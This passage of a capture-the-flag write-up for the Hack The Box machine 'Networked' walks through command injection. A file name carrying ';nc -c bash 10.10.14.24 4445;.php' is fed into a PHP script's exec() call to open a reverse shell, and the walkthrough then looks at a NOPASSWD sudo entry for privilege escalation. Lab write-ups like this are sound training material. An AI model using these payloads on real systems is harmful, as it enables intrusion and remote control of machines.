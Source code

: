 ```
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```
Analyzing the code, we can see that the script inspect the content of the directory /var/www/html/uploads/ if the file is not named using the common naming convention (validated by check_ip()) it will do stuff and ```exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");```. Now, since we can manipulate the ```$value``` parameter (because we can write inside /var/www/html/uploads/), we can create a file named as the payload that we want to execute:  
```
bash-4.2$ touch -- ';nc -c bash 10.10.14.24 4445;.php'  
```
the two dashes after touch, tells the command that we are done with the arguments and the only argument we are passing to the command is the actual filename that we want to create.  
The challenge here is to craft a filename containing the payload without slashes, because slashes in files are not allowed.  
once we create the file with the above command, we can listen for the shell to pop up:
```
root@kali:~/Documents/HTB/Boxes/Networked# nc -lvnp 4445                                                                                                                                                                                    
listening on [any] 4445 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.146] 39442
id                                                                                                                    
uid=1000(guly) gid=1000(guly) groups=1000(guly)
```
## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS notice that user guly has the following sudo capability:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                                                                                                                                            
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                           
Matching Defaults entries for guly on networked:                                                                      
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLL
ATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:                                                                
    (root) NOPASSWD: /usr/local/sbin/changename.sh         
```